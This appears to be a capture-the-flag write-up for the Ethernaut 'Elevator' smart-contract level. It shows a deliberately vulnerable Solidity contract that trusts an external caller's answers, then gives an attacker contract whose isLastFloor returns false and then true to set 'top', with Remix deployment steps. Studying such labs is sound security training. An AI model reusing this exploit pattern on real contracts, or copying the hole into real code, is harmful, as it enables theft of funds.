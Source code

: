 # 11 Elevator

```
This elevator won't let you reach the top of your building. Right?

Things that might help:
Sometimes solidity is not good at keeping promises.
This Elevator expects to be used from a Building.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

```

#### Start 


### (1) `reach the top of your building`


We can see that code `bool public top` defaults is false , we need to set that value `top` to true 


How do we do 

.


.

. 

It can be seen that only the ` function goTo(uint _floor) public` can set the top value, so we have to attack from here.

You can see that an external call  to the contract building and the `isLastFloor()` function is used. 

so `isLastFloor()`  the first time is must false to pass condition `if (! building.isLastFloor(_floor))`   

and the second is true to set `top = true`.


#### This is the code I used to attack contract Elevator   
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator  {
	function goTo(uint _floor) external ;
  
}
contract Building  {

    bool public firstCall;
    Elevator public target ;

    constructor(address _target)  {
      firstCall = true;
      target = Elevator(_target);
    }
   
    function isLastFloor(uint ) external returns (bool){
      if(firstCall){
        firstCall = false;
        return false;
      } else {
        return true;
      }
      
    }

    function callgoTo(uint _floor) external 
    { 
      target.goTo(_floor);
    }

}

```

- `function isLastFloor(uint ) external returns (bool)`

    This function is for the Elevator contract to be called and will return bool 

- `function callgoTo(uint _floor) external`

    This function used to call function `goTo()` in contract Elevator 


Use the remix deploy contract `Elevator`

 - (1) We will set `top = true` by calling `function callgoTo(uint _floor) external` and input `uint _floor` can be any positive number
 
   because it has no effect. and confirm transaction


Click button Submit instance and confirm transaction

# !!! we passed !!!


